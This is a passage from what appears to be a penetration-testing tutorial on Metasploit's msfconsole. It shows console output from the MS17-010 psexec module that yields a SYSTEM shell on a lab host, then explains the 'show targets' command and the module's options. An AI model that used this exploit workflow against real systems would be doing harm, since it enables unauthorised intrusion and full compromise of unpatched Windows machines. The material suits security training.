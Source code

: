 ```shell-session
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

We now have a shell on the target machine, and we can interact with it.

**MSF - Target Interaction**

&#x20; Modules

```shell-session
C:\Windows\system32> whoami

whoami
nt authority\system
```

This has been a quick and dirty example of how `msfconsole` can help out quickly but serves as an excellent example of how the framework works. Only one module was needed without any `payload` selection, `encoding` or `pivoting` between sessions or jobs.



## Targets

***

`Targets` are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system. The `show targets` command issued within an exploit module view will display all available vulnerable targets for that specific exploit, while issuing the same command in the root menu, outside of any selected exploit module, will let us know that we need to select an exploit module first.

**MSF - Show Targets**

```shell-session
msf6 > show targets

[-] No exploit module selected.
```

When looking at our previous exploit module, this would be what we see:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
```